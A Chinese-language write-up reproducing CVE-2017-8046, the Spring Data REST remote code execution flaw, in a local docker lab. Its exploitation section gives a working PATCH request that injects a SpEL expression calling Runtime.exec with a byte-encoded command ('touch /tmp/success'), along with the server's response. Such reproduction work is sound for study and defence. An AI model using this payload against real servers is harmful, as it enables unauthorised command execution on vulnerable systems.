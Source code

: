 # Spring-Data-REST-RCE复现分析 [CVE-2017-8046]

## 漏洞简介

Spring Data REST对PATCH方法处理不当，导致攻击者能够利用JSON数据造成RCE。本质还是因为spring的SPEL解析导致的RCE

## 部署环境

docker pull registry.cn-shanghai.aliyuncs.com/yhskc/spring-data-rest

docker run -d -p 0.0.0.0:80:8080 registry.cn-shanghai.aliyuncs.com/yhskc/spring-data-rest

直接部署在本地,用浏览器打开即可

## 必备知识科普

HTTP-PATCH 

必须指定Content-Type指定为application/json-patch+json

请求数据必须是json数组

## 测试

curl -X POST -H "Content-Type: application/json-patch+json" -d '{"forstname":"si","lastname":"li"}' http://127.0.0.1/customers

```json
{
  "firstname" : null,
  "lastname" : "li",
  "gender" : null,
  "address" : null,
  "_links" : {
    "self" : {
      "href" : "http://127.0.0.1/customers/2"
    },
    "customer" : {
      "href" : "http://127.0.0.1/customers/2"
    }
  }
}%
```

随后执行删除

curl -X DELETE -H "Content-Type: application/json-patch+json" http://127.0.0.1/customers/2

查看网页已经被成功删除

## 利用

直接BurpSuite抓包

```
GET /customers/1 HTTP/1.1
Host: 192.168.0.108
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

修改为
```
PATCH /customers/1 HTTP/1.1
Host: 192.168.0.108
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: security_level=0
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 08 Sep 2020 03:06:31 GMT
If-None-Match: "0"
Cache-Control: max-age=0
Content-Type: application/json-patch+json

[{"op":"replace","path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname","value":"test"}]

```

此时可以获得响应

```json
{"cause":{"cause":null,"message":"EL1010E: Property or field 'lastname' cannot be set on object of type 'java.lang.UNIXProcess' - maybe not public?"},"message":"Could not read an object of type class example.springdata.rest.headers.Customer from the request!; nested exception is org.springframework.expression.spel.SpelEvaluationException: EL1010E: Property or field 'lastname' cannot be set on object of type 'java.lang.UNIXProcess' - maybe not public?"}
```

随后进入docker容器中进行查看发现在 /tmp 路径下已经成功创建文件success完成初级漏洞利用
